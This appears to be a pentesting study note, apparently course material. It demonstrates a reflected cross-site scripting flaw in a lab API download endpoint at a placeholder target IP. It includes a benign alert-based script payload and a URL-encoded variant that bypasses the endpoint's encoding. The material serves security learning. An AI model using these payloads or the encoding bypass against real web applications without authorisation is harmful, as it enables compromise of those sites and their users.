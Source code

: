 ```yaml
---
title: e-XSS
draft: false
tags:
  - xss
---
```

Cross-Site Scripting (XSS) vulnerabilities affect web applications and APIs alike. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities.

> Suppose we are having a better look at the API of the previous section, `http://<TARGET IP>:3000/api/download`.

Let us first interact with it through the browser by requesting the below.

```URL
http://<TARGET IP>:3000/api/download/test_value
```

And we get a result saying:

```
test_value not found!
```


`test_value` is reflected in the response.

Let us see what happens when we enter a payload such as the below (instead of _test_value_).

```javascript
<script>alert(document.domain)</script>
```

It looks like the application is encoding the submitted payload:

```
Cannot GET /api/download/%3Cscript%3Ealert(document.domain)%3C/script%3E
```

We can try URL-encoding our payload once and submitting it again, as follows.

```javascript
%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
```

Now our submitted JavaScript payload is evaluated successfully. The API endpoint is vulnerable to XSS!

